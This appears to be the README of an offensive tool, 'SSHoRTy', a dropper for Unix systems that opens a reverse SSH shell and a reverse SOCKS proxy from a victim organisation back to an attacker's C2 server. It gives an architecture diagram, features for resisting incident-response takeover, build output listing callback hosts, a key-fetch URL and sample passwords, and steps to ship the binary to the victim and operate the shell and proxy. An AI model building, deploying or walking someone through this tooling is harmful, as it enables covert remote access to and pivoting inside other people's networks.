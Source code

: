 
# SSHoRTy

A standalone SSH Reverse shell tunnel and Reverse SOCKS Proxy Dropper for *nix systems. 
```bash
 [Organization]  ----- |Internet| ------ [Attacker C2]
 
      (Dropper)  ------ Call back ------> SSH Server -------------------|
                                                                        |  Attacker SSH shell client             
 1. Internal Host <==== SSH Client <= Reverse Shell ==== SSH Server ----|
                                                                        |  Attacker Browser+SOCKS
 2. Internal Hosts N <==== SSH Client <= Reverse SOCKS ==== SSH Server -|
    Internal Hosts N+1

```
## Features

- Full PTY support, the "real" shell
- end-to-end SSH w/key equivalency
- RSA key can be hosted offsite and fetched for operation. It is Additionally encrypted with AES in flight 
- Reverse SSH is protected on atatcker side with an additional password to avoid hijacking connections.
- Ability to protect from C2 takeover from DFIR by authorized_keys options 

Note: No SCP yet. No DNS proxying yet.

## Deployment 

Build Dropper 

`./build.sh`

```bash
[*] Building dropper
[*] Dropper Information (keep it safe):
    #######################
    Dropper File: rssh (7010788 bytes)
    SSH serverHost=192.168.88.15
    SSH serverPort=22
    SSH serverUser=tester
    SSH serverUserKeyUrl=http://127.0.0.1:9000/id_rsa_test_enc
    SSH serverUserKeyPassphrase=password1
    SSH-RT remoteCmdHost=127.0.0.1
    SSH-RT remoteCmdPort=2022
    SSH-RT remoteCmdUser=operator
    SSH-RT remoteCmdPwd=6009c967f7176e5be0bb14d5b2beb0a8905a069f
    SSH-RTS remoteSocksHost=127.0.0.1
    SSH-RTS remoteSocksPort=1080
    SSH-RT shell agent password: 6009c967f7176e5be0bb14d5b2beb0a8905a069f 
    #######################

       Usage SSH-RT: ssh operator@127.0.0.1 -p 2022 
       Usage SSH-RTS: browser SOCKS proxy: 127.0.0.1:1080 

```
1. Host dropper RSA keys on HTTP server (fetchable by URL from Company Intranet)
2. Allow SSH on C2 
3. Ship the binary to victim


## Operation

```bash
       SSH from Attacker C2: ssh operator@127.0.0.1 -p 2022 
       
       SOCKS from Attacker C2 SOCKS proxy: 127.0.0.1:1080 
       point your browser to it and/or proxifier. Note: no DNS masking yet.
```
## Code used
Thanks to ref: 
- https://gist.github.com/codref/473351a24a3ef90162cf10857fac0ff3
-	 https://gist.github.com/pavel-odintsov/0208f1848952d4940b4a5976165db17f
-	 https://github.com/creack/termios/blob/master/win/win.go
-	 https://github.com/davecheney/socksie
-	 https://sosedoff.com/2015/05/25/ssh-port-forwarding-with-go.html
